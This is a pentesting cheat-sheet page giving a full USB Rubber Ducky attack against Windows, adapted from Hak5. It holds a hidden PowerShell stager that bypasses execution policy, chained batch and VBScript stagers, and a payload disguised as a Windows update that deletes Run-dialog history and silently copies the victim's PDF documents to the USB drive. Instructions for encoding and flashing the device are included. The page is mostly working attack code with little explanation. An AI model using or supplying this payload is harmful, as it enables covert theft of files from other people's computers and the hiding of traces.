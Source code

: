 ```yaml
---
title: Rubber Ducky
category: Exploitation
order: 100
---
```


> **Find the Rubber Ducky’s drive letter** 

{% highlight powershell %}
for /f %d in ('wmic volume get driveletter^, label^|findstr “DRIVENAME”'') do @set DK=%d 
{% endhighlight %}


> **Execute the Stager** 

{% highlight powershell %}
powershell -NoP -NonI -W Hidden -Exec Bypass " $up = Get-WMIObject Win32Volume | ? { $_.Label -eq 'DriveName' } | select name; cd $uP.name; .\d.cmd"
{% endhighlight %}

> **Clean up run history** 

{% highlight powershell %}
Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU' -Name '*' -ErrorAction SilentlyContinue
{% endhighlight %}

> **Run the Program and Clean-up**

{% highlight powershell %}
powershell -NoP -NonI -W Hidden -Exec Bypass "rp -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU' -Name '*' -ErrorAction SilentlyContinue; $up = Get-WMIObject Win32Volume | ? { $_.Label -eq 'DN' } | select name; cd $uP.name; .\d.cmd"
#Note: Runtime max is 260 characters - use aliases to reduce
#Note: _ is Drive Name
{% endhighlight %}

{% highlight powershell %}
#Second Version
powershell "$u=gwmi Win32_Volume|?($_Label -eq'_')|select name; cd $uname;.\d.cmd"
#65 Character Version
powershell".((gwmi win32_volume -f 'label=''_''').Name+'d.cmd')"
#Note: Runtime max is 260 characters - use aliases to reduce
#Note: _ is Drive Name
#Note: The shorter versions don't change the directory
{% endhighlight %}

> **d.cmd: Stager 1** 

{% highlight powershell %}
@echo off
REM start /MIN e.cmd
@cls
start /b /wait powershell.exe -nologo -WindowStyle Hidden -sta -command "$wsh = New-Object -ComObject WScript.Shell;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}')"
cscript i.vbs e.cmd
@exit
#Note: Powershell portion flashes the CAPS lock button to demonstrate that the first stage has completed successfully
{% endhighlight %}

> **i.vbs: Stager 2** 
{% highlight vb %}
CreateObject("Wscript.Shell").Run """ & WScript.Arguments(0) & """", 0, False
{% endhighlight %}

> **e.cmd: Payload** 

{% highlight powershell %}
@echo off
@echo Installing Windows Update

REM Delete registry keys storing Run dialog history
REG DELETE HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU /f

REM Creates directory compromised of computer name, date and time
REM %~d0 = path to this batch file. %COMPUTERNAME%, %date% and %time% pretty obvious
set dst=%~d0\slurp\%COMPUTERNAME%_%date:~-4,4%%date:~-10,2%%date:~7,2%_%time:~-11,2%%time:~-8,2%%time:~-5,2%
mkdir %dst% >>nul

if Exist %USERPROFILE%\Documents (
REM /C Continues copying even if errors occur.
REM /Q Does not display file names while copying.
REM /G Allows the copying of encrypted files to destination that does not support encryption.
REM /Y Suppresses prompting to confirm you want to overwrite an existing destination file.
REM /E Copies directories and subdirectories, including empty ones.

REM xcopy /C /Q /G /Y /E %USERPROFILE%\Documents\*.pdf %dst% >>nul

REM Same as above but does not create empty directories
xcopy /C /Q /G /Y /S %USERPROFILE%\Documents\*.pdf %dst% >>nul
)

REM Blink CAPSLOCK key
start /b /wait powershell.exe -nologo -WindowStyle Hidden -sta -command "$wsh = New-Object -ComObject WScript.Shell;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}')"

@cls
@exit
{% endhighlight %}

> **Rubber Ducky Stager**

{% highlight bash %}
REM USB Exfiltration Payload from Hak5 episodes 2112 - 2114
REM Target: Windows XP SP3+ Author: Hak5Darren Props: Diggster, Midnightsnake
DELAY 1000
GUI r
DELAY 100
STRING powershell ".((gwmi win32_volume -f 'label=''_''').Name+'d.cmd')"
ENTER
{% endhighlight %}

> **Encode Using Rubber Ducky Encoder**

{% highlight bash %}
java -jar duckencode.jar -i ../slerp/payload.txt -o inject.bin
./ducktools.py -e -l us ../slerp/payload.txt inject.bin
{% endhighlight %}

> **Flashing Rubber Ducky**

{% highlight bash %}
sudo apt-get install dfu-programmer
sudo dfu-programmer at32uc3b1256 dump
sudo dfu-programmer at32uc3b1256 erase
sudo dfu-programmer at32uc3b1256 flash --supress-bootloader-mem c_duckv2.1.hex
sudo eject /media/dk/_
{% endhighlight %}

{% highlight bash %}
sudo ./ducky-flasher
sudo eject /media/dk/_
{% endhighlight %}

> **Further References** 

Rubber Ducky Encoder:
[https://github.com/hak5darren/USB-Rubber-Ducky/blob/master/Ducky_Encoder_GUI.jar](https://github.com/hak5darren/USB-Rubber-Ducky/blob/master/Ducky_Encoder_GUI.jar)
[https://github.com/kevthehermit/DuckToolkit](https://github.com/kevthehermit/DuckToolkit)

Create a Rubber Ducky:
[http://www.pentestingshop.com/pentesting/make-your-own-usb-rubber-ducky-using-a-normal-usb-stick](http://www.pentestingshop.com/pentesting/make-your-own-usb-rubber-ducky-using-a-normal-usb-stick)
[https://forums.hak5.org/index.php?/topic/34950-how-to-make-a-usb-rubber-ducky-using-a-normal-usb-
stick](https://forums.hak5.org/index.php?/topic/34950-how-to-make-a-usb-rubber-ducky-using-a-normal-usb-stick)

Payloads:
[https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payloads](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payloads)
[https://github.com/hak5darren/USB-Rubber-Ducky/wiki/My-first-payload](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/My-first-payload)

[https://www.hak5.org/episodes/season-21/hak5-2112-stealing-files-with-the-usb-rubber-ducky](https://www.hak5.org/episodes/season-21/hak5-2112-stealing-files-with-the-usb-rubber-ducky)

[https://github.com/hak5darren/USB-Rubber-Ducky](https://github.com/hak5darren/USB-Rubber-Ducky)

[http://usbrubberducky.com/#!index.md](http://usbrubberducky.com/#!index.md)

[https://www.hak5.org/blog/hak5/stealing-files-with-the-usb-rubber-ducky-usb-exfiltration-explained](https://www.hak5.org/blog/hak5/stealing-files-with-the-usb-rubber-ducky-usb-exfiltration-explained)

(https://www.hak5.org/blog/hak5/stealing-files-with-the-usb-rubber-ducky-usb-exfiltration-explained)


